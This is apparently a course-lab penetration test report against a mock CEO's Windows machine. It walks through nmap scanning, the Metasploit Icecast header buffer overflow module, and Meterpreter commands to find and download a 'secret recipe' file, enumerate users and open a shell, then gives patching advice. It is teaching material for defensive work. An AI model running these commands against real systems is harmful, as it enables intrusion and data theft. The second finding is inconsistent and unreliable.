







GoodSecurity Penetration Test Report 

JAMESMOORE@GoodSecurity.com

DATE 07/07/2021

1.	High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.
The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs with major vulnerabilities. The details of the attack are below.
2.	Findings

Machine IP:
192.168.0.20
Hostname:
MSEDGEWIN10\IEUser 
Vulnerability Exploited:
The name of the script or Metasploit module used:  msf5 exploit(windows/http/icecast_header) > run 
--Icecast HTTP Header Buffer Overflow. 
--8000/tcp open http Icecast streaming media server. 
Vulnerability Explanation: 
ICECAST HEADER OVERWRITE:  DISCLOSED 09/28/04.  CREATED 05/30/2018 (from Rapid7.com) 
Description: 
This module exploits a buffer overflow in the header parsing of icecast versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32 HTTP headers will cause a write one past the end of a pointer array. On win32 this happens to overwrite the saved instruction pointer, and on linux (depending on compiler, etc) this seems to generally overwrite nothing crucial (read not exploitable). This exploit uses ExitThread(), this will leave icecast thinking the thread is still in use, and the thread counter won't be decremented. This means for each time your payload exits, the counter will be left incremented, and eventually the threadpool limit will be maxed. So you can multihit, but only till you fill the threadpool.
Some remote actions that can be executed include: 
•	File discovery and exfiltration
•	Key logging and screen capture. 
•	Privilege escalation to Administrator 
Additional exploits the system was found to be vulnerable to: 
•	exploit/windows/local/ikeext_service
•	exploit/windows/local/ms16_075_reflection

Severity:
In your expert opinion, how severe is this vulnerability?:  CRITICAL—10 
Proof of Concept:
1.	Perform a service and version scan using Nmap to determine which services are up and running:
	Run the Nmap command that performs a service and version scan against the target.
Answer:   nmap -sV 192.168.0.20 
 

2.	 From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
	Run the SearchSploit commands to show available Icecast exploits.
Answer:  Searchsploit -p 8000  & Searchsploit icecast. 
 
 
	
 

3.	 Now that we know which exploits are available to us, let's start Metasploit:
	Run the command that starts Metasploit:
Answer: msfconsole 
 

4.	Search for the Icecast module and load it for use.
	Run the command to search for the Icecast module:
Answer:   search icecast 
 

	Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.
Answer:  use 0   (Command also above in screen shot) 
5.	Set the RHOST to the target machine.
	Run the command that sets the RHOST:
Answer:  set RHOST 192.168.0.20
 

6.	Run the Icecast exploit.
	Run the command that runs the Icecast exploit.
Answer:  msf exploit (windows/http/icecast_header) > run
 

7.	Run the command that performs a search for the secretfile.txt on the target.
Answer:  metrepter > search -f  *secretfile.txt* 
 

8.	You should now have a Meterpreter session open.
	Run the command to performs a search for the recipe.txt on the target:
Answer:   metrepter > search -f *recipe*.txt
 

	Bonus: Run the command that exfiltrates the recipe*.txt file:
Answer:  metrepeter > download  “c:\Users\IEUser\Documents\Drinks.recipe.txt”
 

9.	You can also use Meterpreter's local exploit suggester to find possible exploits.
	Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
metrpeter > use post/multi/recon/local_exploit_suggester 
 

Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
Answer:   mertrepter > run post/windows/gather/enum_logged_on_users  (results are in screen shot command is missing but the command to enumerate all applications is in the following screen shot) 
 
 

B. Open a Meterpreter shell and gather system information for the target.
Answer:   meterpreter > shell 
 

C. Run the command that displays the target's computer system information:
Answer:  metrepter > sysinfo 
________________________________________
 

 

 

 
Findings: 
--Machine IP:  192.168.0.20:49727
--Hostname:  MSEDGEWIN109999
--Vulnerability Exploited:  windows/smb/ms08_067_netapi 
--Vulnerability Explanation:  Both reconnaissance of usernames on the system as well as all applications running on system. 
--Severity:  8-9.  

3.	Recommendations

1.	The Icecast exploit is an old vulnerability that can be easily fixed with a patch.  To patch this Icecast vulnerability install the latest version of this and all other software on your systems. 
2.	Encrypt all files and folders that you want kept confidential. 
3.	Enable your Windows firewall with rules to only allow traffic on needed ports. 

